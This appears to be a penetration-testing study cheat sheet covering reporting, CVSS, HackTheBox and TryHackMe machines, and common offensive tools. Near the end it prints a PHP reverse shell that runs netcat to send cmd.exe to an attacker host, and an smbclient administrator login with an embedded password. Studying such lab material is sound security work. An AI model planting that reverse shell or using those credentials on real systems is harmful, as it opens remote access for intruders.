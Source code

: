 
## **Reporting and Documentation**
- Reporting Structure
  - Executive Summary
  - Technical Details
  - Proof of Concepts
- Risk Ratings
  - CVSS (Common Vulnerability Scoring System)
- Mitigation Strategies
  - Best Practices for Hardening

---
## **Vulnerabilities & Exploits**
- Windows Subsystem for Linux (WSL)
  - PayloadsAllTheThings

### Hackthebox and Tryhackme machines
- [ ] Chatterbox
- [ ] SecNotes
- [ ] Windows PrivEsc Lab - https://tryhackme.com/room/windowsprivescarena

## **Tools Cheat Sheet #cheatsheet**
- Reconnaissance Tools
  - theHarvester, Shodan, SpiderFoot
- Scanning Tools
  - Nmap, Nikto, Masscan
- Exploitation Tools
  - Metasploit, SQLmap, Hydra
- Post-Exploitation Tools
  - Mimikatz, LinPEAS, BloodHound
- Reporting Tools
  - Dradis Framework
### Exploiting SMB
```
smbclient -U 'administrator%u6!4zwgwOM#^0Bf#Nwhn' \\\\127..0.1\\c$
```

### Exploiting PHP
This is a basic reverse shell written in php 
```
<?php
system('nc.exe -e cmd.exe $yourip 4444')
?>
```
### Exploiting with exec tools
- psexpec.py
- smbexec.py
- wmiexec.py
